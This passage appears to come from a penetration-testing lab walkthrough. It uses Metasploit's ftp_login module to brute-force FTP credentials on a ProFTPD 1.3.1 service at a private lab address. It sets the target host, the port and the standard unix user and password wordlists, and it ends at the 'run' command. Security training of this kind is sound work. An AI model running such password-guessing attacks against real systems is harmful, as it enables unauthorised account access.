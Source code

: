 <pre> 2121/tcp open  ftp         ProFTPD 1.3.1</pre>
#### ProFTP is not running a vulnerable version, but even so we could get some information about the users.

<pre>msf6 > search ftp_login

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/ftp/ftp_login  .                normal  No     FTP Authentication Scanner


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/ftp/ftp_login</pre>

<pre>msf6 > use 0</pre>
<pre>msf6 auxiliary(scanner/ftp/ftp_login) > show options</pre>

<pre>Module options (auxiliary/scanner/ftp/ftp_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   ANONYMOUS_LOGIN   false            yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST      false            no        Record anonymous/guest logins to the database
   RHOSTS                             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             21               yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts</pre>


<pre>msf6 auxiliary(scanner/ftp/ftp_login) > set blank_passwords true</pre>

<pre>msf6 auxiliary(scanner/ftp/ftp_login) > set rhosts 192.168.161.131</pre>

<pre>msf6 auxiliary(scanner/ftp/ftp_login) > set rport 2121</pre>

<pre>msf6 auxiliary(scanner/ftp/ftp_login) > set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt</pre>

<pre>msf6 auxiliary(scanner/ftp/ftp_login) > set user_file /usr/share/wordlists/metasploit/unix_users.txt</pre>

<pre>msf6 auxiliary(scanner/ftp/ftp_login) > show options</pre>

<pre>Module options (auxiliary/scanner/ftp/ftp_login):

   Name              Current Setting                                     Required  Description
   ----              ---------------                                     --------  -----------
   ANONYMOUS_LOGIN   false                                               yes       Attempt to login with a blank username and password
   BLANK_PASSWORDS   true                                                no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                   yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                               no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                               no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                               no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                              no        A specific password to authenticate with
   PASS_FILE         /usr/share/wordlists/metasploit/unix_passwords.txt  no        File containing passwords, one per line
   Proxies                                                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST      false                                               no        Record anonymous/guest logins to the database
   RHOSTS            192.168.161.131                                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             2121                                                yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                               yes       Stop guessing when a credential works for a host
   THREADS           1                                                   yes       The number of concurrent threads (max one per host)
   USERNAME                                                              no        A specific username to authenticate as
   USERPASS_FILE                                                         no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                               no        Try the username as the password for all users
   USER_FILE         /usr/share/wordlists/metasploit/unix_users.txt      no        File containing usernames, one per line
   VERBOSE           true                                                yes       Whether to print output for all attempts</pre>



<pre>msf6 auxiliary(scanner/ftp/ftp_login) > run</pre>




